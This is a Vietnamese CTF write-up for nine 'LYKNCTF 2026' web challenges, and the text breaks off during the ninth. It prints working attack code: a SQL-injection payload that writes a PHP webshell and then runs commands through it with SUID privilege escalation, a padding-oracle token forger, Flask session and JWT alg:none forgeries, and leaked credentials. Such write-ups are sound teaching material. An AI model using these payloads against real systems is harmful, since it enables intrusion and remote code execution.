# LYKNCTF 2026 Web Writeup


## 1. Web - Right in front of your eyes

### Mô tả bài

Challenge cung cấp một website rất đơn giản. Khi mở bằng trình duyệt, người chơi chỉ thấy một trang bình thường và không thấy flag.

Điểm đặc biệt là server trả về HTTP redirect `302`, nhưng flag lại nằm trong body của response redirect. Trình duyệt tự động đi theo redirect nên phần body này không được hiển thị.

### Phân tích

Khi truy cập bằng browser, ta chỉ thấy trang decoy. Tuy nhiên nếu dùng `curl` và không follow redirect, ta sẽ thấy response gốc:

```bash
curl -i http://<host>/
```

Response trả về dạng:

```http
HTTP/1.1 302 Found
Location: /A

Here is the flag: LYKNCTF{...}
```

Trình duyệt đọc header `Location`, sau đó chuyển sang URL mới và bỏ qua phần body của response `302`. Vì vậy flag “ở ngay trước mắt” nhưng browser không render ra.



**Flag**:

```
LYKNCTF{6db93b9689cd49a7a4ab8776d97dfda2}
```

---

## 2. Web - Waguri1

### Mô tả bài

Challenge là một trang web có nút `SPAWN`. Khi bấm nút, client gửi message WebSocket dạng:

```json
{"type":"spawn"}
```

Nếu gửi đủ nhanh nhiều message liên tiếp, server trả về flag ở response thứ 6.

### Phân tích

Client bình thường chỉ gửi từng message theo thao tác click của người dùng. Tốc độ này quá chậm nên không trigger được điều kiện race.

Khi đọc JavaScript phía client, ta thấy browser chỉ xử lý các field như `type`, `image`, `sound`, nhưng server còn trả thêm `spawnId`. Điều này cho thấy server đang đếm số lần spawn trong cùng một connection.

Nếu gửi 6 frame WebSocket thật nhanh, không chờ response từng cái, response thứ 6 sẽ có thêm field:

```json
{
  "type": "spawned",
  "spawnId": 6,
  "race": "won",
  "flag": "LYKNCTF{...}"
}
```

### Script lấy flag

```python
import asyncio
import json
import re
import websockets

URL = "ws://d03120eb-9ddf-4ded-98ef-29572f309f4e.51.79.140.18.nip.io:8080/ws"

async def main():
    async with websockets.connect(URL) as ws:
        for _ in range(6):
            await ws.send(json.dumps({"type": "spawn"}))

        for _ in range(6):
            msg = await ws.recv()
            print(msg)

            m = re.search(r"LYKNCTF\{[^}]+\}", msg)
            if m:
                print("FLAG:", m.group(0))
                return

asyncio.run(main())
```



### Root cause

Server tin rằng UI button sẽ giới hạn tốc độ người dùng, nhưng client-side không phải cơ chế bảo mật.

**Flag**:

```
LYKNCTF{74a785a7cc454827a3453cf649a4e963}
```

---

## 3. Web - LYKN Corp

### Mô tả bài

Website là hệ thống mail nội bộ. Mục tiêu là lấy quyền admin để đọc flag.

Các lỗi chính gồm:

```text
robots.txt lộ /backup
nginx block /backup nhưng phân biệt hoa thường
/Backup/ bị autoindex
lộ credentials.txt
dùng chung mật khẩu mặc định
mail nội bộ chứa tài khoản admin
```

### Phân tích

Đầu tiên kiểm tra `robots.txt`:



Kết quả có:

```text
Disallow: /backup
```

Truy cập `/backup` bị chặn `403`.

`nginx` mặc định match location phân biệt chữ hoa, thường.

Nếu cấu hình chặn kiểu:

```
location /backup {
    deny all;
}
```

thì nó chặn:

```
/backup
/backup/
```

Nhưng có thể không chặn:

```
/Backup/
/BACKUP/
/BackUp/
```

Vì vậy thử truy cập:



Thư mục `/Backup/` bị autoindex và lộ file `credentials.txt`.

File này chứa tài khoản nhân viên mới:



Đăng nhập bằng tài khoản này chỉ được quyền employee. Thử brute-force Flask secret bằng wordlist mặc định cũng không ra, nên hướng forge session không khả thi.

Trong mailbox của `tuan.nguyen`, có email onboarding. Từ nội dung bài, có thể suy ra đây là tài khoản nhân viên mới và password `Welcome123!` là mật khẩu mặc định.



Thử reuse mật khẩu mặc định với user `minh.le`:

```text
minh.le : Welcome123!
```

Mailbox của `minh.le` chứa credential admin:

```text
Username: admin
Password: Adm1n_S3cur3_P@ss_2026
```

Đăng nhập admin rồi vào `/admin` để lấy flag.



### Root cause

Có nhiều lỗi nhỏ ghép lại thành chain:

```text
1. Để lộ đường dẫn nhạy cảm trong robots.txt.
2. Backup public trong web root.
3. Nginx deny-list chỉ match lowercase /backup.
4. Autoindex bật.
5. Dùng mật khẩu mặc định.
6. Gửi credential admin qua mail nội bộ.
```

**Flag:**

```
LYKNCTF{3aa9a867fe604bd0a153b6957af51eb2}
```

---

## 4. Web - Migrant

### Mô tả bài

Challenge dùng encrypted token cho chức năng import profile. Server giải mã token AES-CBC, kiểm tra padding, parse JSON rồi trả kết quả.

Mục tiêu là forge token có role admin.

### Phân tích

Khi gửi token sai tới endpoint `/api/migrate`, server trả về các lỗi khác nhau:

```text
Invalid padding
JSON unreadable
Migration successful
```

Điều này tạo ra padding oracle. Ta có thể phân biệt được token nào có PKCS#7 padding hợp lệ và token nào không hợp lệ.

Trong AES-CBC:

```text
P[i] = D(C[i]) XOR C[i-1]
```

Nếu oracle cho biết padding đúng/sai, ta có thể recover intermediate value `D(C[i])`, sau đó tự tạo ciphertext để plaintext giải mã thành dữ liệu mong muốn.

Payload plaintext cần forge:

```python
P0 = b'{"role":"admin"}'
P1 = b'\x10' * 16
```

`P1` là block padding hợp lệ vì `{"role":"admin"}` dài đúng 16 byte.

### Script khai thác

```python
import base64, requests

URL = "http://83cc96e1-dca6-4bd3-8a14-8e5d4be57048.51.79.140.18.nip.io:8080/api/migrate"
STARTER = "zQ7S8E/GxZiqKLvcdsgCHI3w+n8dmCaWVpS8PeHvhosQIYxQ5N1LA2OZ1Usp9WnMsPkWbQvoGuZiaoFZZUTzPw=="
B = 16
s = requests.Session()

def oracle(raw):
    tok = base64.b64encode(raw).decode()
    r = s.post(URL, json={"token": tok}, timeout=8)
    return "invalid padding" not in r.text.lower()

def recover(c):
    inter = bytearray(B)
    fake = bytearray(B)

    for i in range(B - 1, -1, -1):
        pad = B - i

        for j in range(i + 1, B):
            fake[j] = inter[j] ^ pad

        for g in range(256):
            fake[i] = g
            if oracle(bytes(fake) + c):
                inter[i] = g ^ pad
                print(f"{i:02d}: {inter[i]:02x}")
                break
        else:
            raise Exception(f"fail at {i}")

    return bytes(inter)

def forge(pt):
    pad = B - len(pt) % B
    pt += bytes([pad]) * pad

    blocks = [pt[i:i+B] for i in range(0, len(pt), B)]
    cur = base64.b64decode(STARTER)[-B:]
    out = [cur]

    for p in blocks[::-1]:
        inter = recover(cur)
        cur = bytes(a ^ b for a, b in zip(inter, p))
        out.insert(0, cur)

    return base64.b64encode(b"".join(out)).decode()

pt = b'{"user":"guest","role":"admin","v":"1.0"}'
token = forge(pt)

print("TOKEN:", token)
print(s.post(URL, json={"token": token}).text)
```



### Root cause

Lỗi chính là server trả về lỗi khác nhau cho từng bước xử lý token.

Ví dụ nguy hiểm:

```text
Padding sai  -> báo invalid padding
JSON sai     -> báo JSON unreadable
Token đúng   -> success
```

**Flag**:

```
LYKNCTF{928155858d054cc388cbeb17f0701037}
```

---

## 5. Web - FU Career

### Mô tả bài

Chain khai thác:
```
Username enumeration
Brute-force OTP 4 chữ số
Đăng nhập HR admin
SQL Injection trong preview.php
Ghi webshell bằng INTO OUTFILE
Tìm SUID binary csvtool
Đọc /part2.txt
Ghép flag
```

### Phân tích

Đầu tiên khi truy cập vào trang web thì ta thấy có 2 chức năng chính là login và ứng tuyển , nhưng khi bấm ứng tuyển thì ta được yêu cầu phải đăng nhập , vậy nên ta sẽ tiến hành tạo 1 tài khoản mới. 

Sau đó ta thấy chức năng forgot password cho phép kiểm tra username hợp lệ. Với username đúng, server redirect sang reset page:

```http
POST /forgot.php
username=hr.fehn
```

Ở đây nếu xác định được username đó tồn tại thì sẽ có 1 mã OTP 4 chữ số được tạo ra để xác minh thay đổi mật khẩu và nó có hiệu lực trong 30 phút. Không có lockout nên ta có thể brute-force `0000` đến `9999`.

Tiếp đến bước tiếp theo ta sẽ phải đi liệt kê được các tài khoản admin trên web, ở đây ta sẽ liệt kê được 5 username có khả năng là của admin :

```
hr.fehn
hr.fedn
hr.fedcm
hr.fect
hr.feqn
```



Và tìm được username admin là `hr.fehn`

Bây giờ ta tiến hành bruteforce otp 4 chữ số. Đăng nhập vào tải khoản andmin, khi vào admin dashboard, trang hiển thị phần đầu flag:

```text
part1: LYKN{default_cred
```

Trong dashboard có form preview CV gửi tới `preview.php` với parameter:

```text
cv_id
```

Source code logic bị lỗi dạng:

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $cv_id = $_POST['cv_id'] ?? '';
    
    $query = "SELECT * FROM cv_submissions WHERE id = $cv_id";
    $result = @mysqli_query($conn, $query);
    
    if (!$result) {
        $_SESSION['flash'] = ['type' => 'danger', 'message' => 'Lỗi query preview: ' . mysqli_error($conn)];
        header("Location: admin.php");
        exit;
    }
```

Do nối trực tiếp input vào SQL query, ta có SQL Injection.



Do SQL Injection nằm trong MySQL và tài khoản database có quyền FILE, ta có thể dùng `UNION SELECT` có thể gọi `LOAD_FILE()` để đọc source hoặc dùng `INTO OUTFILE` để ghi webshell vào web root.

**Payload SQLi đọc file**

```sql
-1 UNION SELECT
1,2,LOAD_FILE('/var/www/html/preview.php'),
'SRC','src.txt','seed_cv.txt','COVER','pending','NOW'
```

Sau khi source hiện ra, ta xác nhận được:

```
$query = "SELECT * FROM cv_submissions WHERE id = $cv_id";
```

Nếu đọc tiếp config, có thể thấy database user có quyền nguy hiểm kiểu:

```
GRANT FILE ON *.* TO 'ctf'@'localhost';
```

Mục tiêu tiếp theo là ghi một file PHP vào thư mục web có thể truy cập được, ví dụ:

```
/var/www/html/uploads/fu_shell.php
```

**Payload ghi webshell**

```sql
-1 UNION SELECT
1,2,
0x3c3f7068702073797374656d28245f4745545b2263225d293b203f3e,
'P','F','seed_cv.txt','C','pending','N'
INTO OUTFILE '/var/www/html/uploads/shell.php'
```

Webshell tương ứng:

```php
<?php system($_GET["c"]); ?>
```

Sau đó gọi:

```bash
curl "http://<host>/uploads/shell.php?c=id"
```

Nếu thành công:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Lúc này đã có RCE với quyền `www-data`.

Sau khi có webshell, có thể thử:

```bash
curl "http://<host>/uploads/fu_shell.php?c=env"
```

Có thể thấy một biến:

```
FLAG=LYKNCTF{...}
```

Nhưng đây là flag giả. Submit sẽ sai.

Bài này cố tình đặt flag-looking string trong environment để đánh lạc hướng.

Flag thật được chia làm hai phần:

```
part1: nằm trong admin page
part2: nằm trong /part2.txt
```

Cần đọc tiếp:
```
/part2.txt
```

Nhưng file này root-only, www-data đọc trực tiếp sẽ bị permission denied.

Tìm SUID binary:

```bash
curl "http://<host>/uploads/fu_shell.php?c=find%20/%20-perm%20-4000%20-type%20f%20-ls%202%3E/dev/null"
```

Hoặc nếu dùng helper script:

```bash
python3 cmd.py 'find / -perm -4000 -type f -ls 2>/dev/null'
```

Kết quả có binary đáng chú ý:

```bash
/usr/bin/csvtool
```

File có SUID root:

```
-rwsr-xr-x root root /usr/bin/csvtool
```

Vì csvtool chạy với effective UID root, nó có thể đọc file mà user `www-data` bình thường không đọc được.

Dùng csvtool để đọc file root-only:

```
/usr/bin/csvtool col 1 /part2.txt
```

Gọi qua webshell:

```bash
curl "http://<host>/uploads/fu_shell.php?c=/usr/bin/csvtool%20col%201%20/part2.txt"
```

Kết quả:

```text
ential_sqli2rce_r0n4d0_m3ss1}
```

**Flag**:

```text
LYKN{default_credential_sqli2rce_r0n4d0_m3ss1}
```

### Root cause

Các lỗi chính:

```text
1. Forgot password cho phép enumerate username.
2. OTP 4 số không có rate limit.
3. SQLi do SQL query nối chuỗi trực tiếp.
4. MySQL user có quyền FILE nguy hiểm.
5. Web root cho phép ghi file PHP.
6. SUID csvtool có thể đọc file root-only.
```

---

## 6. Web - Gold Hunters

### Mô tả bài

Website có form contact đơn giản. Mục tiêu là tìm endpoint ẩn để lấy flag.

Lỗi chính là API key bị hardcode trong HTML:

```js
window.API_KEY = "..."
```

OpenAPI schema cũng public và lộ route `/api/get-flag`.

### Phân tích

Xem source HTML ta thấy API key:

```js
window.API_KEY = "ITGpqe_zNDzRT68OiJYDeA3wlyK0bNyQhY1qDXEpsz8";
```

Kiểm tra schema:

```bash
curl -s http://3afea1cf-2228-414a-a7ba-0fcc85c0ec79.51.79.140.18.nip.io:8080/api/openapi.json
```



Trong schema có route:

```text
GET /api/get-flag
```

Gọi lại với header `X-API-Key`:

```bash
curl -s \
  -H "X-API-Key: ITGpqe_zNDzRT68OiJYDeA3wlyK0bNyQhY1qDXEpsz8" \
  http://3afea1cf-2228-414a-a7ba-0fcc85c0ec79.51.79.140.18.nip.io:8080/api/get-flag
```

### Script lấy flag

```python
import requests
import re

HOST = "http://3afea1cf-2228-414a-a7ba-0fcc85c0ec79.51.79.140.18.nip.io:8080/"
KEY = "ITGpqe_zNDzRT68OiJYDeA3wlyK0bNyQhY1qDXEpsz8"

r = requests.get(
    HOST + "/api/get-flag",
    headers={"X-API-Key": KEY}
)

m = re.search(r"LYKNCTF\{[^}]+\}", r.text)
print(m.group(0) if m else r.text)
```

### Root cause

Lỗi chính:

```text
API key bị lộ ở client-side.
Endpoint nhạy cảm chỉ bị ẩn khỏi frontend chứ không được bảo vệ đúng cách.
OpenAPI schema public lộ route admin/hidden.
```

**Flag**:

```
LYKNCTF{c9ba9f6e85fb420badee02b730ab92dd}
```

---

## 7. Web - Freebie

### Mô tả bài

Challenge dùng Flask session. Người dùng bình thường không thể đăng ký hoặc login trực tiếp bằng username `admin`.

Tuy nhiên app có debug hook:

```python
@app.before_request
def before_request():
    if "debug" in request.args:
        return open(__file__).read()
```

Khi thêm `?debug=1`, server lộ source code, bao gồm `app.secret_key`.

### Phân tích

Đăng ký một user bình thường, ví dụ q, rồi login. Server trả về cookie dạng:

```
eyJ1c2VybmFtZSI6ImtpZG8ifQ.ak_dUg.06LowHhfP-MuZhM9Y8sFxHG5Iak
```

Cookie session của Flask thường có 3 phần:

```
<base64_payload>.<timestamp>.<signature>
```

Phần đầu:

```
eyJ1c2VybmFtZSI6ImtpZG8ifQ
```

Decode base64 sẽ ra:

```
{"username":"kido"}
```

Điều này cho thấy ứng dụng lưu username trực tiếp trong Flask session ở phía client. Server không lưu session trong database theo kiểu `session ID`, mà tin vào cookie nếu chữ ký HMAC hợp lệ.

Nói cách khác, phần dữ liệu session có thể đọc được, nhưng không sửa được nếu chưa biết secret key.

Thử đăng ký user admin. Server trả về lỗi:
```
Registration for the 'admin' account is prohibited.
```

Thử login bằng admin. Server trả về:
```
Error 403: Admin login via web interface is disabled.
```

Vậy đường register/login bình thường đã bị chặn. Nhưng đây chỉ là chặn ở logic form. Nếu tự tạo được session có nội dung:

```
{"username":"admin"}
```

thì có thể bypass hoàn toàn form login.

Thử xem có lỗi debug/source leak, thêm query parameter debug=1 vào route login

```bash
curl http://a7ef062a-5b2b-4d15-be73-9fb488f4faa4.51.79.140.18.nip.io:8080/login?debug=1
```

Source code bị leak và có:

```python
app.secret_key = "sup3r_s3cr3t_ctf_k3y_727"
```

Flask session là client-side signed cookie. Nếu biết `secret_key`, ta có thể ký lại session tùy ý.

Forge session:

```bash
flask-unsign --sign \
  --cookie "{'username':'admin'}" \
  --secret "sup3r_s3cr3t_ctf_k3y_727"
```

Sau đó dùng cookie forged để gọi `/flag`:

```bash
curl -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.ak_fww.fhAEyKHfimyRRO8Ql1hE-rIRL-I" http://a7ef062a-5b2b-4d15-be73-9fb488f4faa4.51.79.140.18.nip.io:8080/flag
```



### Script lấy flag

```python
import subprocess
import requests
import re

HOST = "http://a7ef062a-5b2b-4d15-be73-9fb488f4faa4.51.79.140.18.nip.io:8080"
SECRET = "sup3r_s3cr3t_ctf_k3y_727"

cookie = subprocess.check_output([
    "flask-unsign",
    "--sign",
    "--cookie", "{'username':'admin'}",
    "--secret", SECRET
]).decode().strip()

r = requests.get(
    HOST + "/flag",
    headers={"Cookie": f"session={cookie}"}
)

m = re.search(r"LYKNCTF\{[^}]+\}", r.text)
print(m.group(0) if m else r.text)
```

### Root cause

Lỗi chính là để debug source disclosure trong production làm lộ secret_key.

**Flag**:

```
LYKNCTF{8a94edbaad0f49a0a670f73c0e8d7f4b}
```
---

## 8. Web - Discord Nitro

### Mô tả bài

Challenge dùng JWT để xác thực user. Tài khoản guest có token:

```json
{
  "user": "guest",
  "role": "user"
}
```

Mục tiêu là đổi role thành admin.

### Phân tích

Sau khi login bằng `guest/guest`, cookie chứa JWT dạng:

```text
header.payload.signature
```

Decode payload thấy:

```json
{"user":"guest","role":"user"}
```

Server bị lỗi chấp nhận JWT với thuật toán:

```json
{"alg":"none"}
```

Nếu server tin vào field `alg` trong header và không enforce allow-list, attacker có thể tạo token không chữ ký.

Header forged:

```json
{"alg":"none","typ":"JWT"}
```

Payload forged:

```json
{"user":"admin","role":"admin"}
```

JWT cuối phải có dấu chấm cuối:

```text
header.payload.
```

Dấu `.` cuối đại diện cho signature rỗng.





### Root cause

Lỗi chính là JWT verifier cho phép `alg:none`.

**Flag**:

```
LYKNCTF{fb7ec7b4b8c54a21ba26cd6727228741}
```

---

## 9. Web - OCR

### Mô tả bài

Challenge là một website OCR note saver. Người dùng upload ảnh PNG, server dùng Tesseract để nhận diện chữ trong ảnh, sau đó hiển thị kết quả OCR và cho phép lưu kết quả đó thành file.

Luồng xử lý chính:

```
Upload ảnh PNG
→ Server OCR text trong ảnh
→ Hiển thị recognized text
→ User chọn filename
→ Server lưu text vào /saved/<filename>
→ File có thể truy cập trực tiếp qua web
```

Mục tiêu là biến nội dung OCR thành PHP code, lưu với extension có thể thực thi, rồi đọc file `/flag`.

### Phân tích

Website nhận ảnh dưới dạng PNG data URL, gửi lên route /.

Sau khi OCR xong, server trả về form review kết quả. Ví dụ ảnh có chữ:

HELLO NOTE

